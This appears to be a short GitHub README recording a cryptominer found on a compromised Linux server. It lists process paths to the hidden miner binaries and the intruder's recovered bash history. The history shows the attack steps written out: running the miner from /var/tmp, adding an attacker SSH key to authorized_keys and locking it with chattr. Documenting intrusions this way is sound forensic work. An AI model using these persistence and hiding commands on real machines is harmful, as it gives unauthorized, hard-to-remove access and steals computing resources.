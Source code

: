 # hacker_miner
A hacker's miner program.


### htop
![](https://i.imgur.com/joplxAD.png)

### dir to original path
```ls -l /proc/1023328```

dn -> /var/tmp/dn/r

```ls -l /proc/1017978```

nullcache -> ~/.nullcache/a/cron

### commands log
```cat ~/.bash_history```

```
su root
su root
w
uname -m
nproc
cd /var/tmp
ls -a
ls
tar xzvf miner.tgz
rm -rf miner.tgz
cd dn/
./r
top
cd ..
mkdir .ssh;echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAIEAzmB/GU9O4EuSv2J7IxyuLsqYfZdk15R8ykeuyX8tujqLY0Ad8THuYjRNCe2PBWpH1PKKqXqRFWHIMU5oLz/G0pnFCRXx1jtUOSwch15RmwDD4f15aFmuHCgDoROq7w7b7ILsdUjSz7MFjMK/e/OweASvv4hyNrqBh1VE2Gl3Lfc= UstupidMF" >> .ssh/authorized_keys
chattr +iau .ssh ;cd .ssh ;chattr +iau authorized_keys
w
top
cd /var/tmp/dn
ls
cat c.jason
./r
top
ls
nano r
top
./r
cd
exit

```
